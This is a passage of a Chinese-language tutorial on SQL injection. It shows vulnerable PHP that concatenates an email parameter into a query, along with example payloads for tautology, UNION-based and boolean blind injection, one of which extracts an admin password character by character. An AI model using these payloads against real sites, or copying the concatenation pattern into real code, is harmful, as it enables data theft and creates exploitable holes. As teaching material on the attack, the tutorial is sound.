 该命令会自动检测目标网站是否存在SQL注入漏洞，并列出所有数据库。  
#### 4. 实际案例分析  
  
某电商平台的“找回密码”页面，用户输入邮箱地址，后端代码直接拼接SQL语句：  
```
$email = $_GET['email'];$query = "SELECT * FROM users WHERE email = '$email'";$result = mysqli_query($conn, $query);
```  
  
攻击者输入：  
```
http://example.com/forgot_password.php?email=admin@example.com' OR '1'='1
```  
  
生成的SQL语句变为：  
```
SELECT*FROM users WHERE email ='admin@example.com'OR'1'='1';
```  
  
由于 '1'='1'  
 始终为真，攻击者可以获得所有用户的记录。  
### 2.1.3 SQL注入的类型分类  
  
根据攻击方式的不同，SQL注入可分为以下几类：  
#### 1. 联合查询注入（Union Injection）  
  
攻击者通过UNION  
操作符将恶意查询与原始查询合并，获取额外数据。  
  
**示例：**  
  
假设有一个页面用于显示文章详情，URL为：  
```
http://example.com/article.php?id=1
```  
  
攻击者尝试输入：  
```
http://example.com/article.php?id=1 UNION SELECT 1, version(), database()
```  
  
此注入点会返回数据库版本和当前数据库名称。  
  
**关键步骤：**  
1. 确定列数（使用 ORDER BY  
）。  
  
1. 利用 UNION  
 合并查询。  
  
1. 获取敏感信息（如数据库名、版本、用户表结构等）。  
  
#### 2. 布尔盲注（Boolean Blind Injection）  
  
当页面没有直接回显数据时，攻击者通过判断页面返回状态（如成功/失败）来推断数据库内容。  
  
**示例：**  
  
攻击者尝试猜测数据库中某个字段的值：  
```
http://example.com/login.php?username=admin' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>97 -- 
```  
  